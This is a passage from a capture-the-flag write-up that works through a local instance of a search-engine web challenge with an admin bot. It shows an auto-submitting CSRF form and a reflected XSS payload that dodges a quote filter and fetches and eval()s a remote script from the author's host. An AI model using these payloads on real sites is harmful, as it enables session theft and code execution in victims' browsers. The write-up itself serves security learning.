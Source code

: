 All this does is copy the bot.js file inside the container, set up the environment for running it and make sure it gets run after every submission. This means we can be sure that after every URL submission, the bot will open it immediately.

There is one more interesting line for our experimentation, with it being

    ENV ADMIN_PASSWORD="not_real_admin_password"

While this is not useful for the actual hosted version of the challenge (the password is obviously different), it is a useful thing to note for local recon and experimentation.

Since we have everything we need to run the challenge, we can run docker-compose up and get access to our own instance on port 1337 of localhost. Because this is a search engine, we can also try to search for "flag" and open the first link, to get the outcome that we should obviously expect.

# Looking for vulns

## CSRF and XSRF

By the time I started work on this challenge, there was already a hint in the CTF discord saying that the solution should involve CSRF, XSS and SQLi. Since we can submit arbitrary URLs to the bot to view, it's quite clear that the CSRF vulnerability will be due to this. The browser used is quite modern, and the challenge page itself doesn't set any CORS headers, so we can't just fetch something using the cookies set when the bot logs in and get the response. However, no XSRF protections are used on any forms, and the session cookie has the SameSite attribute set to none, which means we can create a website with a form which automatically uses any endpoint using admin privileges. This means we don't need to solve any CAPTCHA which might normally be present on forms. A simple example of how we can use XSRF to our advantage is as follows:

    <form action="http://127.0.0.1/submit/" method="post"><input name="url" value="http://website.example.com"></input></form>
    <script>document.getElementsByTagName('form')[0].submit()</script>

If a reflected XSS exploit is found on any page, the document above can be used to extend it into a full no-input XSS exploit with code execution on the search engine's origin with full cookie access. Speaking of which:

## XSS

The first obvious XSS vector on the /submit/ page is the URL field itself. Submitting `<script>alert(1);</script>` throws an error saying that this does not look like a valid URL. It looks like we will need to dive into the code, so to start, let's get access to a shell inside the container, this can be done with the command

    docker exec -it woeby-chal-1 bash

Looking at /var/www/html/submit/index.php, we can see that to qualify as a url, the submitted string must include a dot, must not include a space anywhere, and must not be empty, it also should not be more than 400 characters long, else it gets truncated, and if it does not include an http:// or https:// anywhere within itself, http:// is automatically prepended. Any quotes are automatically doubled. If we submit the slightly modified `<script>alert(1.1);</script>http://`, we get an alert with 1.1, meaning this can be used as an easy reflected XSS back into a browser, with some limitations. To remove these, we can fetch() a javascript file and eval() its contents. To do so, we need to be able to specify an address as a string without using quotes. This can be done with regex notation, such as `/172.18.0.1:8000/.toString().substr(1,15)`, which returns '172.18.0.1:8000'. This can be used to form the input `<script>fetch(/http:\/\/172.18.0.1:8000\/script.js/.toString().substr(1,35)).then(res=>res.text()).then(res=>eval(res))</script>http://.`, which downloads script.js from an HTTP server on the host and eval()s it, running arbitrary javascript with the origin of the search engine itself. This requires an HTTP server running on the docker host with CORS set up - I just used a short python script from https://stackoverflow.com/questions/21956683/enable-access-control-on-simple-http-server
